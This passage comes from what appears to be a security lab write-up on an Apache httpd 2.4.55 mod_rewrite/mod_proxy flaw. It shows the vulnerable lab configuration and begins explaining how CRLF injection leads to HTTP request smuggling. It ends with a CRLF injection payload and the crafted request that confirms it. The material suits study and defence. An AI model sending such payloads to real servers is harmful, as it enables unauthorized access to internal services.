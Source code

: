 The final **httpd.conf** configuration is structed like below:

```bash
ErrorLog "/usr/local/apache2/logs/error.log"
CustomLog "/usr/local/apache2/logs/access.log" common

# Load necessary modules
LoadModule rewrite_module modules/mod_rewrite.so
LoadModule proxy_module modules/mod_proxy.so
LoadModule proxy_http_module modules/mod_proxy_http.so

<VirtualHost *:80>

    RewriteEngine on
    RewriteRule "^/categories/(.*)" "http://192.168.10.100:8080/categories.php?id=$1" [P]
    ProxyPassReverse "/categories/" "http://192.168.10.100:8080/"

</VirtualHost>
```

Use the `docker-compose.exe up --build` command to start the lab.

- **mod_rewrite** documentation: [https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html](https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html) <br>
- **mod_proxy** documentation: [https://httpd.apache.org/docs/2.4/mod/mod_proxy.html](https://httpd.apache.org/docs/2.4/mod/mod_proxy.html)

## HTTP Request Splitting causing HTTP Request Smuggling on backend service

In this section, I will explain how a CRLF injection can lead to internal HTTP Request Smuggling, enabling an attacker to gain unauthorized access to internal resources that would otherwise be inaccessible.

### Identifying the CRLF Injection

Based on the advisory description the httpd <=2.4.55 is vulnerable to HTTP Response Splitting also known as CRLF Injection. <br>
The CRLF Injection occurs when:

- Data enters a web application through an untrusted source, most frequently an HTTP request
- The data is included in an HTTP response header sent to a web user without being validated for malicious characters.

which in our case can be confirmed passing the following CRLF prefix in URL:

```
 HTTP/1.1\r\nFoo: baarr\r\n\r\n
%20HTTP/1.1%0d%0aFoo:%20baarr
```

By appending the above prefix to the URL, the resulting final request will be as follows:

```bash
GET /categories/1%20HTTP/1.1%0d%0aFoo:%20baarr HTTP/1.1
Host: 192.168.1.103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
```
